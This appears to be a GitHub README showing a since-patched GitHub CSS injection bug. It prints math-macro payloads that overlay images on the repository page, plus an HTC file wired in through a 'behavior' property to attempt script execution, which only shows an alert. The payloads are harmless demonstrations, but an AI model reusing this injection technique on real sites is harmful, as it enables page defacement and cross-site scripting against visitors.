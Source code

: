 
# GITHUB CSS VULN TEST >_<
![image](https://github.com/tr4xnz/css-vuln/assets/171883047/f068a0ae-8df2-4bbf-9fee-ec912725a884)

The Github CSS Vuln, a vulnerability where README.md macros were exploited to edit the CSS on one's repository's page, and it'll be stored on the server.
This vulnerability's discovery was very surprising as Github is like a huge platform where major companies and developers share their projects and ideas.
Luckily the vulnerability was patched.

I still believed that an XSS attack was possible using CSS's ability to load in .htc files to run Javascript code.

## script.htc
```htc
<PUBLIC:COMPONENT TAGNAME="xss">
  <PUBLIC:ATTACH EVENT="ondocumentready" ONEVENT="main()" LITERALCONTENT="false"/>
</PUBLIC:COMPONENT>
<SCRIPT>
  function main() {
    alert("Welcome to my github repo, ik very cool :P");
  }
</SCRIPT>
```

```diff
Hello i am tr4xnz
```

```math
\ce{$\unicode[goombafont; color:red; z-index: -1; position: fixed; top: 0; left: 0; height: 100%; object-fit: cover; width: 100%; opacity: 0.7; background: url('https://raw.githubusercontent.com/tr4xnz/css-vuln/master/Untitled.png'); background-size: cover]{x0000}$}
\ce{$\unicode[goombafont; color:red; z-index: 1000; position: fixed; left: 0; background-repeat: no-repeat; height: 300px; object-fit: cover; width: 300px; background: url('https://raw.githubusercontent.com/tr4xnz/css-vuln/master/Untitled.png'); background-size: cover]{x0000}$}
\ce{$\unicode[goombafont; color:red; z-index: 1000; position: fixed; right: 5vh; background-repeat: no-repeat; height: 280px; object-fit: cover; width: 280px; background: url('https://raw.githubusercontent.com/tr4xnz/css-vuln/master/Untitled.png'); background-size: cover]{x0000}$}
\ce{$\unicode[goombafont; color:red; z-index: 1000; position: fixed; left: 0; top: 12vh; background-repeat: no-repeat; height: 280px; object-fit: cover; width: 280px; background: url('https://raw.githubusercontent.com/tr4xnz/css-vuln/master/Untitled.png'); background-size: cover]{x0000}$}
\ce{$\unicode[goombafont; color:red; z-index: 1000; position: fixed; right: 0; top: 4vh; background-repeat: no-repeat; height: 252px; object-fit: cover; width: 340px; background: url('https://raw.githubusercontent.com/tr4xnz/css-vuln/master/Untitled.png'); background-size: cover]{x0000}$}
\ce{$\unicode[goombafont; color:red; z-index: 1000; position: fixed; right: 2vh; bottom: 0; background-repeat: no-repeat; height: 249px; object-fit: cover; width: 213px; background: url('https://raw.githubusercontent.com/tr4xnz/css-vuln/master/Untitled.png'); background-size: cover; behavior:url('script.htc')]{x0000}$}
```

